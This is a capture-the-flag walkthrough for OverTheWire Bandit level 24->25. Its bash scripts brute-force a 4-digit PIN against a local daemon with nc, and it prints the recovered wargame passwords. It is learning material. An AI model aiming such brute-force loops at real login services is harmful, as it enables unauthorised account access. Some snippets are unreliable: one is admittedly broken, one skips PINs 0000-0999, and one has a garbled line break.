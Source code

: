## Bandit Level 24 -> Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

## Solution

write a bruteforcing script to crack the password
I tried several times but failed to solve it quickly
the program below refers Nikkko from wooyun, the link is [HERE](http://drops.wooyun.org/tips/6211)

```
$ cd /tmp
$ vim tbf.sh
pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {1000..10000}
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else
    echo $pass $i| nc localhost 30002
    exit
fi
}
done
$ chmod +x tbf.sh
$ ./tbf.sh
(afer about teo hours.....I got the following)
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

---

But I think it's not necessary to use commond 'nc' so many times
I try to use redirct so as to 'nc ...' only once
It cound be faster and faster.

Like this:(~~but it doesn't work, If only someone could help me, thanks~~)
```
#!/bin/bash
pwd="MYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
exec 1>nc localhost 30002
for i in {1000..10000}
do
        echo $pwd $i
done
```

This works:(by @rvrheenen)
```
echo "" > pins && for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> pins; done && cat pins | nc localhost 1
30002
```
